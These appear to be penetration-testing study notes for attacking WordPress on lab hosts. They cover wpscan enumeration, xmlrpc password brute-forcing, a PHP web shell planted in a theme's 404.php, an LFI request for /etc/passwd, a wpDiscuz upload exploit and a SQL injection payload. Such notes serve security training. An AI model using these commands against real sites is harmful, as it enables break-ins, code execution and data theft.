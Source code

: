 ### Footprinting + Enumeration
```bash
wpscan --url $url 
wpscan --url $url -e ap
wpscan --url $url -e vp     <- Vulnerable plugins
wpscan --url $url -e cb     <- Config backups
wpscan --url $url -t 500 -e p --plugins-detection aggressive
curl -s http://trilocor.local/ | grep plugins

wpscan --url http://trilocor.local/ -e u -t 500    <- Enumerate Users
wpscan --url http://trilocor.local/ --password-attack xmlrpc -t 500 -U ilfreightwp -P ~/rockyou.txt
```

```bash
curl -s http://trilocor.local | grep WordPress
```

```bash
curl http://inlanefreight.local/robots.txt

User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://blog.inlanefreight.local/wp-sitemap.xml
```
##### Themes + Plugins
WordPress stores its plugins in the `wp-content/plugins` directory. This folder is helpful to enumerate vulnerable plugins. Themes are stored in the `wp-content/themes` directory. These files should be carefully enumerated as they may lead to RCE.

```bash
curl -s http://blog.inlanefreight.local/ | grep themes
curl -s http://metapress.htb/ | grep plugins
```
Visiting `/wp-content/plugins/realplugin` can uncover `readme`'s with the version

##### User enumeration
We can discover users by attempting to login via `/wp-admin` and the error messages they produce. [Good resource](https://gosecure.ai/blog/2021/03/16/6-ways-to-enumerate-wordpress-users/)
```bash
curl http://blog.inlanefreight.local/?rest_route=/wp/v2/users
```

### Exploitation
#### **Login bruteforcing**
Two methods, `xmlrpc`(faster api) and the wp-login.
```bash
wpscan --password-attack xmlrpc -t 500 -U ilfreightwp -P ~/rockyou.txt --url http://ir.inlanefreight.local
```

#### RCE
This is possible with Administrative access to the admin panel. This can be done by adding a single line of PHP code within an unused theme then calling upon it.
This should be on an uncommon page like `404.php`
```php
system($_GET[0]);
```

```bash
curl http://ir.inlanefreight.local/wp-content/themes/twentytwenty/404.php?0=id
```
This can also be done with Metasploit (`rhost` and `vhost`must be set)
```bash
use exploit/unix/webapp/wp_admin_shell_upload 
```


#### Vulnerable Plugins
##### mail-masta
This plugin suffers from two vulnerabilities [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438) and a [Local File Inclusion](https://www.exploit-db.com/exploits/50226).
```bash
curl -s http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
##### wpDiscuz
Based on the version number (7.0.4), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution. The crux of the vulnerability is a file upload bypass. 
```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```

#### b2i investor tools
```bash
curl http://ir.inlanefreight.local/wp-content/plugins/wp-business-intelligence/view.php
?t=1337+union+select+1,2,3,group_concat(table_name),5,6,7,8,9,10,11+from+information_schema.tables+where+table_schema=database()--+
```
